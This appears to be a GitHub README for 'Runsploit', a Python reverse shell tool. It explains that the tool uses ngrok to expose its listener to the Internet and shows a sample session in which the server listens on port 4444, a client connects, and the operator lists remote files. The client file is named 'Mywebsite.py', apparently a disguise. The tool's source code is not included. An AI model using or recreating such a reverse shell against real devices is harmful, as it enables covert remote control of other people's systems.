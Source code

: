 # Runsploit
Runsploit is tool reverse shell on python i build this tool for myself you know you can fork this repository for contributor and i will accept if suitable for this project.
You can modify my source code if you want because my source code is open source and i keep build this tool runsploit.

# Need Ngrok
You need use ngrok for this because ngrok is a cross-platform application that exposes local server ports to the Internet learn more <a href="https://ngrok.com/">here</a>.

# Example
**runsploit.py (windows / server)**
```
C:\Users\galihap\runsploit>runsploit.py -p 4444

                                ,--.
                               {    }
                               K,   }
                              /  ~Y`
                         ,   /   /
                        {_'-K.__/
                          `/-.__L._
                          /  ' /`\_}
                         /  ' /
                 ____   /  ' /
          ,-'~~~~    ~~/  ' /_
        ,'             ``~~~  ',
       (                        Y
      {                         I
     {                           `,
     |                            )
     |            ,..__      __. Y
     |           Y ' / ^Y   J   )|
     \           |' /   |   |   ||
      \          L_/    . _ (_,.'(
       \,   ,      ^^""' / |      )
         \_  \          /,L]     /    RUNSPLOIT
           '-_~-,       ` `   ./`
              `'{_            )
                  ^^\..___,.--`


[+]=========RUNSPLOIT HAS BEEN RUNNING========[+]
[+] Listening as 0.0.0.0:4444 ...
[+] 127.0.0.1:18994 Connected!
[+] Current working directory: /storage/9016-4EF8/Source Code
[*] /storage/9016-4EF8/Source Code>>> ls
Medium-UI-Free-Version-3.0.zip
Mywebsite.py
client.py
ngrok-stable-linux-arm
reverse_shell
reverse_shell.zip
runsploit.py
server.py
source_code.rar
source_code_english.rar
[*] /storage/9016-4EF8/Source Code>>>
```

**Mywebsite.py (android / client)**
![Screenshot_2022-05-11-23-27-15-43](https://user-images.githubusercontent.com/83481679/167903711-de09f8a8-d322-4a71-ad84-7468b0868eb2.png)

# Note
I'm sorry i can't record in video on process do reverse shell maybe next time because i not have time for do this. This tool not for script kiddie i hope you already know about reverse shell, what is ngrok, programming language and last socket on python.
